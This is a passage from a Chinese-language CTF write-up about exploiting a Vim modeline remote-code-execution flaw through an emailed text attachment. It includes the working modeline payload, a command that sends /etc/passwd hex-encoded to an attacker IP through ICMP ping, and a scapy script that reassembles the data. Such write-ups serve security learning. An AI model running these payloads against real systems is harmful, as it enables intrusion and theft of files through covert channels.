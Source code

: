 首先制作一个test.txt，先采用ping的方式确认是否存在漏洞

```
:!ping 10.10.x.x||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="
```

注意txt最后要带一个`\n`

把test.txt作为附件发送过去，本地使用tcpdump进行监听icmp

[![](https://p1.ssl.qhimg.com/t011f1b7c9c69611df4.png)](https://p1.ssl.qhimg.com/t011f1b7c9c69611df4.png)

大概等一分钟后，可以抓到box ping过来的包，证明漏洞存在。

有RCE漏洞，虽然没有回显，但是直接反弹shell就好了。然而后续测试无论是wget或是curl，都没有访问我开的http服务进行文件下载。

> i think it should stop any non RFC compliant connection.

回头看之前邮件的提示，应该是box中开启出站规则，导致正常的http协议无法出站。至此，出现本box第一道坎，能够RCE，但是没有回显，并且无法回连。

首先，想到的是类似布尔盲注的方式，通过是否有ping回来判断是否执行成功，例如判断文件是否存在可以这样写：

```
:!file /home/shared/.ssh/passwd &amp;&amp; ping -s 34 -c 1 10.10.x.x||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="
```

但是有个问题，每次都需要等一分钟才执行命令，这样效率奇低。应该需要一种特殊的技巧来获取回显和读取文件。

### <a class="reference-link" name="data%20exfiltration"></a>data exfiltration

首先想到的是利用ICMP进行信息泄露，相信CTFer都见过把flag藏在icmp协议的流量分析题目吧。原理就是利用ping的`-p`参数携带信息。

例如可以这样读取/etc/passwd

```
cat /etc/passwd | xxd -p -c 2 | xargs -n 1 -I '`{``}`' ping -c 1 -t 1 -p '`{``}`' 10.10.x.x ; ping -c 1 -t 1 -s 55 10.10.x.x
```

然后通过以下脚本进行接收

```
import sys
import argparse
import scapy.all
config = None
def write_or_stop(pkt):
  global config
  if pkt[scapy.all.IP].len == 83:
    config.output_file.flush()
    config.output_file.close()
    return True
  payload = pkt.lastlayer().load
  print(pkt.show())
  config.output_file.write(payload[8:8+config.chunk_size])
  print(payload[0-config.chunk_size:])
  return False

def main(argv):
  global config
  parser = argparse.ArgumentParser(description='Reassemble FILE from ICMP ECHO REQUESTs')
  parser.add_argument('-s', '--chunk-size', metavar='SIZE', type=int, default=2, help='How many bytes are exfiltrated in a single ECHO_REQUEST pkt')
  parser.add_argument('-o', '--output-file', nargs='?', type=argparse.FileType('w+'), default=sys.stdout)
  config = parser.parse_args(argv)
  scapy.all.sniff(filter="icmp[icmptype] == 8", stop_filter=write_or_stop, store=0, iface='tun0')

if __name__ == "__main__":
```